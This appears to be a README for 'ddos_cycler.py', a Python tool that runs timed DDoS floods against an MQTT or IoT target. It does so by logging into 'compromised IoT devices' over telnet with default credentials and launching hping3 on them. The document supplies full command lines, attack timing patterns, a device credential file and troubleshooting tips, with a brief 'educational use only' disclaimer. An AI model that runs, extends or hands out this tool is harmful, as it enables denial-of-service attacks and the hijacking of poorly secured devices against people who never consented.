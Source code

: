 # DDoS Cycler - Advanced Timing Pattern

## Overview
The DDoS Cycler script has been updated with a sophisticated timing pattern that implements:
- **4-minute attack phases** followed by **2-minute regular pauses**
- **5-minute long pauses** after every **3 attacks**
- Configurable parameters for all timing aspects

## New Timing Pattern

### Default Pattern (6 cycles total):
1. **Attack 1** (4 min) → **Pause** (2 min)
2. **Attack 2** (4 min) → **Pause** (2 min)  
3. **Attack 3** (4 min) → **Long Pause** (5 min)
4. **Attack 4** (4 min) → **Pause** (2 min)
5. **Attack 5** (4 min) → **Pause** (2 min)
6. **Attack 6** (4 min) → **Complete**

### Total Duration: 42 minutes
- 6 attacks × 4 minutes = 24 minutes
- 4 regular pauses × 2 minutes = 8 minutes  
- 2 long pauses × 5 minutes = 10 minutes
- **Total: 42 minutes**

## Command Line Usage

### Basic Usage
```bash
python ddos_cycler.py --target 192.168.1.100 --devices devices_config.json
```

### Advanced Timing Configuration
```bash
python ddos_cycler.py \
  --target 192.168.1.100 \
  --devices devices_config.json \
  --attack-time 4 \
  --pause-time 2 \
  --long-pause 5 \
  --cycles 6 \
  --attacks-per-group 3
```

### Single Device Quick Start
```bash
python ddos_cycler.py \
  --target 192.168.1.100 \
  --add-device 192.168.1.10 admin admin123
```

## New Command Line Arguments

| Argument | Default | Description |
|----------|---------|-------------|
| `--attack-time` | 4 | Attack duration in minutes |
| `--pause-time` | 2 | Regular pause duration in minutes |
| `--long-pause` | 5 | Long pause duration in minutes after attack groups |
| `--attacks-per-group` | 3 | Number of attacks before triggering long pause |
| `--cycles` | 6 | Total number of attack cycles |

## Interactive Configuration

When run without command line arguments, the script provides an interactive setup that includes:

1. **Device Configuration**
   - Add/remove attack devices
   - Load/save device configurations
   - Validate device credentials

2. **Advanced Timing Setup**
   - Configure attack duration
   - Set regular pause duration
   - Set long pause duration
   - Define attacks per group
   - Set total cycles

3. **Real-time Calculations**
   - Total estimated duration
   - Pattern visualization
   - Start/end time predictions

## Configuration Files

### Device Configuration (devices_config.json)
```json
[
  {
    "ip": "192.168.1.10",
    "username": "admin",
    "password": "admin123"
  },
  {
    "ip": "192.168.1.11", 
    "username": "root",
    "password": "password"
  }
]
```

## Features

### Enhanced Monitoring
- Real-time countdown timers for each phase
- Phase-specific status messages
- Detailed logging for each attack device
- Estimated completion times

### Flexible Patterns
- Configurable attack groups
- Variable pause durations
- Scalable to any number of cycles
- Custom timing patterns

### Robust Error Handling
- Graceful shutdown with Ctrl+C
- Thread management and cleanup
- Device connection error recovery
- Comprehensive logging

## Example Patterns

### High-Intensity Pattern
```bash
python ddos_cycler.py \
  --attack-time 6 \
  --pause-time 1 \
  --long-pause 3 \
  --attacks-per-group 2 \
  --cycles 8
```

### Extended Testing Pattern  
```bash
python ddos_cycler.py \
  --attack-time 3 \
  --pause-time 3 \
  --long-pause 10 \
  --attacks-per-group 5 \
  --cycles 15
```

### Quick Validation Pattern
```bash
python ddos_cycler.py \
  --attack-time 1 \
  --pause-time 1 \
  --long-pause 2 \
  --attacks-per-group 2 \
  --cycles 4
```

## Safety Features

- **Explicit confirmation** required before starting attacks
- **Graceful shutdown** with signal handling
- **Thread cleanup** on interruption
- **Educational warnings** and disclaimers

## Lab Environment Setup

1. **Target System**: MQTT broker or IoT device (port 1883)
2. **Attack Devices**: Compromised IoT devices with hping3 installed
3. **Network Isolation**: Ensure attacks remain within lab environment
4. **Monitoring Tools**: Network analyzers, resource monitors

## Educational Use Only

⚠️ **WARNING**: This tool is designed exclusively for controlled laboratory environments and security research. Never use against systems you do not own or have explicit permission to test.

## Dependencies

- Python 3.7+
- telnetlib (deprecated in Python 3.13, will need replacement)
- hping3 on attack devices
- Network access to target and attack devices

## Troubleshooting

### Common Issues
1. **Telnet connection failures**: Verify device IPs and credentials
2. **Sudo password prompts**: Ensure devices can run hping3 with sudo
3. **Network timeouts**: Check network connectivity and firewall settings
4. **Process cleanup**: May require manual pkill hping3 on devices

### Debug Mode
Add verbose logging by modifying the script or redirecting output:
```bash
python ddos_cycler.py --target 192.168.1.100 --devices devices_config.json > attack_log.txt 2>&1
```
